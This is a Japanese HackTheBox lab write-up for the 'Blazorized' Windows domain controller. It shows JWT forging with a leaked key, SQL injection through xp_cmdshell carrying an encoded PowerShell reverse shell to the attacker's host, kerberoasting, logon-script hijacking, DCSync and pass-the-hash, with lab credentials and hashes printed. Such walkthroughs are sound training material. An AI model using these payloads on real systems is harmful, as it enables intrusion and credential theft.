





# Blazorized Writeup

HackTheBoxのBlazorizedの Writeupです。

難易度 : medium

OS : Windows



# Enumeration

## nmap

```bash
kali@Kali [14時24分22秒] [~/HTB/Blazorized] 
-> % sudo nmap --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- 10.10.11.22
[sudo] kali のパスワード:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 14:24 JST
Nmap scan report for blazorized.htb (10.10.11.22)
Host is up, received user-set (0.21s latency).
Not shown: 65507 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Mozhar's Digital Garden
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-11-05 05:23:25Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: blazorized.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2022 16.00.1115.00; RC0+
| ms-sql-info: 
|   10.10.11.22\BLAZORIZED: 
|     Instance name: BLAZORIZED
|     Version: 
|       name: Microsoft SQL Server 2022 RC0+
|       number: 16.00.1115.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RC0
|       Post-SP patches applied: true
|     TCP port: 1433
|_    Clustered: false
|_ssl-date: 2024-11-05T05:26:51+00:00; -12m42s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.22\BLAZORIZED: 
|     Target_Name: BLAZORIZED
|     NetBIOS_Domain_Name: BLAZORIZED
|     NetBIOS_Computer_Name: DC1
|     DNS_Domain_Name: blazorized.htb
|     DNS_Computer_Name: DC1.blazorized.htb
|     DNS_Tree_Name: blazorized.htb
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-11-04T12:36:24
|_Not valid after:  2054-11-04T12:36:24
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: blazorized.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49709/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49767/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49776/tcp open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2022 16.00.1115.00; RC0+
| ms-sql-ntlm-info: 
|   10.10.11.22:49776: 
|     Target_Name: BLAZORIZED
|     NetBIOS_Domain_Name: BLAZORIZED
|     NetBIOS_Computer_Name: DC1
|     DNS_Domain_Name: blazorized.htb
|     DNS_Computer_Name: DC1.blazorized.htb
|     DNS_Tree_Name: blazorized.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.22:49776: 
|     Version: 
|       name: Microsoft SQL Server 2022 RC0+
|       number: 16.00.1115.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RC0
|       Post-SP patches applied: true
|_    TCP port: 49776
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-11-04T12:36:24
|_Not valid after:  2054-11-04T12:36:24
|_ssl-date: 2024-11-05T05:26:51+00:00; -12m42s from scanner time.
Aggressive OS guesses: Microsoft Windows Server 2019 (96%), Microsoft Windows 10 1709 - 1909 (93%), Microsoft Windows Server 2012 (92%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Longhorn (92%), Microsoft Windows 10 1709 - 1803 (91%), Microsoft Windows 10 1809 - 2004 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows Server 2016 build 10586 - 14393 (91%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=11/5%OT=53%CT=1%CU=30785%PV=Y%DS=2%DC=T%G=Y%TM=6729
OS:AF9A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=I%CI=I%TS=U)SEQ(S
OS:P=104%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=104%GCD=1%ISR=108%TI
OS:=I%CI=RD%II=I%SS=S%TS=U)SEQ(SP=104%GCD=1%ISR=108%TI=RD%CI=I%II=I%TS=U)OP
OS:S(O1=M53ANW8NNS%O2=M53ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=
OS:M53ANNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y
OS:%T=80%W=FFFF%O=M53ANW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=
OS:)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A
OS:=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF
OS:=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=
OS:%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%
OS:IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -12m41s, deviation: 0s, median: -12m42s
| smb2-time: 
|   date: 2024-11-05T05:26:46
|_  start_date: N/A

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   222.55 ms 10.10.16.1
2   87.13 ms  blazorized.htb (10.10.11.22)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 907.27 seconds
```

53, 88, 135, 139, 445がい開いていることからこのマシンはActive Direcotryのドメインコントローラーであることが分かります。

`blazorized.htb` `dc1.blazorized.htb`というドメインを見つけたのでhostsファイルに追加します。

```
10.10.11.22	blazorized.htb dc1.blazorized.htb
```

## Blazor

80番ポートが開いているのでサイトにアクセスしてみるとBlazorizedというウェブサイトが表示されました。


Blazorizedというのは、「アイデアや知識をオンラインで整理・共有するためのデジタルガーデン」だそうです。

[Blazor WebAssembly](https://learn.microsoft.com/ja-jp/aspnet/core/blazor/?view=aspnetcore-8.0)で作られているようです。

BlazorとはMicrosoftが開発した C# を使ってWebアプリケーションを開発することができるオープンソースのWebフレームワークです。

とりあえずすることといえばディレクトリ探索です。

```bash
kali@Kali [14時48分25秒] [~/HTB/Blazorized]
-> % dirsearch -u http://blazorized.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/hatto/HTB/Blazorized/reports/http_blazorized.htb/__24-11-08_23-44-07.txt

Target: http://blazorized.htb/

[23:44:07] Starting: 
[23:44:10] 403 -  312B  - /%2e%2e//google.com
[23:44:10] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[23:44:17] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[23:44:32] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

Task Completed
```


次にサブドメインがないか調べてます。

```bash
kali@Kali [14時49分25秒] [~/HTB/Blazorized] 
-> % ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u http://blurry.htb/ -H 'Host: FUZZ.blurry.htb' -fs 169

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://blurry.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.blurry.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

admin                   [Status: 200, Size: 2027, Words: 149, Lines: 28, Duration: 99ms]
:: Progress: [114441/114441] :: Job [1/1] :: 404 req/sec :: Duration: [0:04:51] :: Errors: 0 ::
```

`admin`が見つかったのでhostsファイルに追加してアクセスします。


ログインページが出てきましたが認諸情報がないのでログインすることができません。

burp suiteを見てみると http://blazorized.htb でdllが読み込まれていることが分かりました。


Blazor WebAssembly について調べていると `blazor.boot.json` という Blazorアプリケーションの起動に関する情報を含むjsonファイルがあることが分かりました。

このファイルには、Blazor アプリケーションがブラウザ上で正しく動作するために必要なリソースや設定情報が含まれているそうです。

[ASP.NET Core Blazor WebAssembly .NET ランタイムとアプリ バンドルのキャッシュ](https://learn.microsoft.com/ja-jp/aspnet/core/blazor/host-and-deploy/webassembly-caching/?view=aspnetcore-8.0)


Burpに検出されているか探していると `/_framework` 配下に見つけました。

## JWT 認証

http://blazorized.htb/_framework/blazor.boot.json にアクセスしてみるとdllが大量に見つかりました。


たくさんありますが気になったのは

`Blazored.LocalStorage.dll`, `Blazorized.DigitalGarden.dll`, `Blazorized.Shared.dll`, `Blazorized.Helpers.dll` というdllがマシンの名前が入っているのでなんか怪しそうでした。

この４つのdllを[dotPeek](https://www.jetbrains.com/ja-jp/decompiler/)という最強の.NETデコンパラでデコンパイルしてみました。

すると、`Blazorized.Helpers.dll` に JWTというクラスを見つけました。


JWT(json web token)を作成するクラスらしく、tokenを作成するための以下の情報を発見しました。


以下の情報からJWTを作成します。

```c#
private const long EXPIRATION_DURATION_IN_SECONDS = 60;
private static readonly string jwtSymmetricSecurityKey = "8697800004ee25fc33436978ab6e2ed6ee1a97da699a53a53d96cc4d08519e185d14727ca18728bf1efcde454eea6f65b8d466a4fb6550d5c795d9d9176ea6cf021ef9fa21ffc25ac40ed80f4a4473fc1ed10e69eaf957cfc4c67057e547fadfca95697242a2ffb21461e7f554caa4ab7db07d2d897e7dfbe2c0abbaf27f215c0ac51742c7fd58c3cbb89e55ebb4d96c8ab4234f2328e43e095c0f55f79704c49f07d5890236fe6b4fb50dcd770e0936a183d36e4d544dd4e9a40f5ccf6d471bc7f2e53376893ee7c699f48ef392b382839a845394b6b93a5179d33db24a2963f4ab0722c9bb15d361a34350a002de648f13ad8620750495bff687aa6e2f298429d6c12371be19b0daa77d40214cd6598f595712a952c20eddaae76a28d89fb15fa7c677d336e44e9642634f32a0127a5bee80838f435f163ee9b61a67e9fb2f178a0c7c96f160687e7626497115777b80b7b8133cef9a661892c1682ea2f67dd8f8993c87c8c9c32e093d2ade80464097e6e2d8cf1ff32bdbcd3dfd24ec4134fef2c544c75d5830285f55a34a525c7fad4b4fe8d2f11af289a1003a7034070c487a18602421988b74cc40eed4ee3d4c1bb747ae922c0b49fa770ff510726a4ea3ed5f8bf0b8f5e1684fb1bccb6494ea6cc2d73267f6517d2090af74ceded8c1cd32f3617f0da00bf1959d248e48912b26c3f574a1912ef1fcc2e77a28b53d0a";
private static readonly string superAdminEmailClaimValue = "superadmin@blazorized.htb";
private static readonly string postsPermissionsClaimValue = "Posts_Get_All";
private static readonly string categoriesPermissionsClaimValue = "Categories_Get_All";
private static readonly string superAdminRoleClaimValue = "Super_Admin";
private static readonly string issuer = "http://api.blazorized.htb";
private static readonly string apiAudience = "http://api.blazorized.htb";
private static readonly string adminDashboardAudience = "http://admin.blazorized.htb";
```

この情報を使ってtokenを作成して[JWT認証](https://qiita.com/asagohan2301/items/cef8bcb969fef9064a5c#3-jwt%E3%81%AE%E4%BD%9C%E3%82%8A%E6%96%B9)でadminページにアクセスできるかもしれません

https://jwt.io/ でJWTを作成できます。


HEADER

```json
{
  "alg": "HS512",
  "typ": "JWT"
}
```

PAYLOAD

```json
{
  "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "superadmin@blazorized.htb",
  "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Super_Admin",
  "iss": "http://api.blazorized.htb",
  "aud": "http://admin.blazorized.htb",
  "iat": 1730000000,
  "exp": 1730000000
}
```

SecurityKey

```
8697800004ee25fc33436978ab6e2ed6ee1a97da699a53a53d96cc4d08519e185d14727ca18728bf1efcde454eea6f65b8d466a4fb6550d5c795d9d9176ea6cf021ef9fa21ffc25ac40ed80f4a4473fc1ed10e69eaf957cfc4c67057e547fadfca95697242a2ffb21461e7f554caa4ab7db07d2d897e7dfbe2c0abbaf27f215c0ac51742c7fd58c3cbb89e55ebb4d96c8ab4234f2328e43e095c0f55f79704c49f07d5890236fe6b4fb50dcd770e0936a183d36e4d544dd4e9a40f5ccf6d471bc7f2e53376893ee7c699f48ef392b382839a845394b6b93a5179d33db24a2963f4ab0722c9bb15d361a34350a002de648f13ad8620750495bff687aa6e2f298429d6c12371be19b0daa77d40214cd6598f595712a952c20eddaae76a28d89fb15fa7c677d336e44e9642634f32a0127a5bee80838f435f163ee9b61a67e9fb2f178a0c7c96f160687e7626497115777b80b7b8133cef9a661892c1682ea2f67dd8f8993c87c8c9c32e093d2ade80464097e6e2d8cf1ff32bdbcd3dfd24ec4134fef2c544c75d5830285f55a34a525c7fad4b4fe8d2f11af289a1003a7034070c487a18602421988b74cc40eed4ee3d4c1bb747ae922c0b49fa770ff510726a4ea3ed5f8bf0b8f5e1684fb1bccb6494ea6cc2d73267f6517d2090af74ceded8c1cd32f3617f0da00bf1959d248e48912b26c3f574a1912ef1fcc2e77a28b53d0a
```

作成したjwtを開発者モードを開いてローカルストレージにロード


ページをリロードすると管理者ページにアクセスできました


# MSSQL Injection


写真の通りこのページはAPIを使用せずに直接データベースを操作することができるみたいです。SQL Injectionが使えそうです。

nmapのスキャン結果からMSSQLが動いていることが分かっているのでおそらく使用しているデータベースはMSSQLだと思われます。

`http://admin.blazorized.htb/check-duplicate-category-name` にカテゴリー名が重複しているか検索できる機能がありました。ここでデータベースに問い合わせをしているっぽいです。


試しに条件が常に真となるように文を追加します。


SQL Injection が機能することが分かりました。

MSSQL にはコマンドを実行できる `xp_cmdshell` という機能があるのでこれでリバースシェルをとりにいきます。

[HackTricks 1433 - Pentesting MSSQL - Microsoft SQL Server Execute OS Commands](https://book.hacktricks.xyz/v/jp/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

HackTricksにあった以下のペイロードでためします。

```mssql
test' EXEC master..xp_cmdshell 'ping 10.10.16.16';-- -
```


ping コマンドの実行に成功したので、リバースシェルを取ることができます。

[Online - Reverse Shell Generator](https://www.revshells.com/) を使ってペイロードを作成ました。

```
tset' EXEC master..xp_cmdshell 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMwAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=';-- -
```

リスナーを起動してペイロードを送信します。


`nu_1055` としてシェルを取得できた



user.txt を取得しました。


# 水平展開

## Sliver C2

`C:\Users` にて複数のユーザーが存在していることが分かった。 `RSA_4810`, `SSA_6010` に横移動する必要がありそうです。


これから水平展開などをしやすくするためC2セッションを確立し、いろいろと融通が利くようにします。

C2 FrameWorkにはとてもいろいろな種類がありますがわたしはその中でも [Sliver C2](https://github.com/BishopFox/sliver.git) や [Havoc](https://github.com/HavocFramework/Havoc.git)がお気に入りなので今回は一番よく使っているSliver C2を使用します。

sliverを起動します。


インプラントを作成します。


作成したインプラントをダウンロード


Sliverでリスナーを起動する


インプラントを実行することでC2 セッションが確立されます。


## Sliver C2 - BloodHound

つづいてBloodhoundで列挙していきます。

Bloodhoundで列挙を行うには `SharpHound` をアップロードして実行する必要がありますが、SliverにはArmoryという拡張機能パッケージ マネージャーがあり、実行ファイルをアップロードせずに、Active Directoryの攻略によく使う Rubeus, certify, seatbelt などを使用できます。

以下のコマンドで実行できます。

```
sharp-hound-4 -- -c All
```

古いバージョンのほうも使えます。

```
sharp-hound-3 -- -c All
```


zipファイルが作成されました。

作成されたzipファイルをダウンロード



BloodHoundを起動してアップロード


アップロードが完了すると現在のユーザー `NU_1055` が持っている権限を見てみます。


 `NU_1055` が ユーザー `RSA_4810` に対して `WriteSPN` の権限を持っていることが分かりました。

## SPN-jacking

侵害しているターゲット SPN に関連付けられたアカウントと別のコンピューター/サービス アカウントに対する `WriteSPN` 権限を持っている場合、SPN を一時的にハイジャックし (`SPN-Jacking`)、それを別のコンピューター/サーバーに割り当て、完全な S4U 攻撃を実行して侵害することができます。

攻撃を行うためにPowerView.ps1 をアップロードして読みこませておきます。


```
. .\PowerView.ps1
```

新しいSPNをRSA_4810に追加

```
Set-DomainObject -Identity RSA_4810 -SET @{serviceprincipalname='spn/spn-jacking'}
Get-SPNTicket -SPN spn/spn-jacking
```

SliverでRubeusを使用してkerberosting攻撃を実行

```
rubeus kerberoast 
```

`RSA_4810` のパスワードのハッシュ値を取得できました。


チケットをファイルに保存することもできます。




PowerViewの `Get-DomainSPNTicket` を使用して取得することもできます。

```powershell
$ticket = Get-DomainSPNTicket -SPN spn/spn-jacking
$ticket.Hash # ハッシュのみ
$ticket | Format-List -Property SamAccountName, DistinguishedName, ServicePrincipalName, Hash # すべて出力
```

```powershell
Get-DomainSPNTicket -SPN spn/spn-jacking | Select-Object -ExpandProperty Hash
```


チケットをファイルに保存してhashcatで解析します。

```
hashcat -m 13100 hashs.kerberoast /usr/share/wordlists/rockyou.txt
```


解析に成功し、RSA_4810のパスワードを取得しました。

```
(Ni7856Do9854Ki05Ng0005 #)
```

取得したパスワードを使用して `evil-winrm` でログインする


RSA_4810に横移動することができました。

# DACL - Script-Path

RSA_4810に横移動することができたのでもう一つのユーザー `SSA_6010` を次の目標にします。

BloodHoundでRSA_4810について調べてみましたがとくに使えそうな権限は持っていませんでした。

PowerViewを使って手動でRSA_4810が持っているACLを検索します。

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{ $_.IdentityReferenceName -match "RSA_4810"}
```


RSA_4810はSSA_6010のスクリプトパスを変更できるみたいです。

`Get-NetUser` で `SSA_6010` について調べます。

```
Get-NetUser -Identity SSA_6010
```


`3073`回もログオンしています。怪しすぎます。


もしかしてと思い、もう一度実行するとログオン回数が増えていました。どうやらSSA_6010は定期的にログオンしているみたいです。

## Logon Script

`RSA_4810` は `SSA_6010` のスクリプトをパスを変更できるのでユーザーのログオン時に実行されるリバースシェル返すカスタムバッチスクリプトを作成することでシェルを獲得することができると思われます。

`C:\Windows\SYSVOL\sysvol\blazorized.htb\script\` に移動して `RSA_4810` が何か権限を持っていないか調べます。


`A32FF3AEAA23` のフルアクセス権を持っていました。ここにリバースシェルスクリプトを追加します。



`A32FF3AEAA23` にアップロードします。


作成したスクリプトをSSA_6010のスクリプトパスに追加する

```powershell
Set-ADUser -Identity SSA_6010 -ScriptPath "A32FF3AEAA23\revshell.bat"
```

リスナーを起動してしばらく待つと `SSA_6010` のシェルを取得できました。


初期侵入の際に作成したインプラントを使いまわしてC2セッションを作っておきます。


# 特権昇格 (Privilege Escalation)

無事 SSA_6010に水平展開できたので最終目標の Administratorへの特権昇格を目指します。

## DCSync攻撃

`SSA_6010` にはドメインに対するDCSyncの権限をもっていました。


ここまでこれば後はmimikatzでAdministratorのNTLMハッシュを取得するだけです。

SliverのMimikatzパッケージをを使用してDCSync攻撃を実行します。


DCSync攻撃の実行に成功し `Administrator` の NTLM Hashを取得しました。

## Pass-The-Hash

取得した NTLM ハッシュで Pass-The-Hash攻撃を実行します。

```
impacket-psexec -hashes :f55ed1465179ba374ec1cad05b34a5f3 Administrator@10.10.11.22
```


攻撃に成功し、SYSTEM権限のシェルを取得しました。

Administratorのデスクトップにはroot.txtと一緒に作問者からのメッセージがありました。


このマシンはDACLを悪用して進めるマシンでした。

「このマシンを楽しみ、DACL攻撃についてもっと知りたくなったのなら、HTBアカデミーの「DACL Attacks I」と「DACL Attacks II」モジュールをやってみてください」とのことです。

- [DACL Attacks I](https://academy.hackthebox.com/course/preview/dacl-attacks-i)

- [DACL Attacks II](https://academy.hackthebox.com/course/preview/dacl-attacks-ii)

root.txtを取得して終了です。


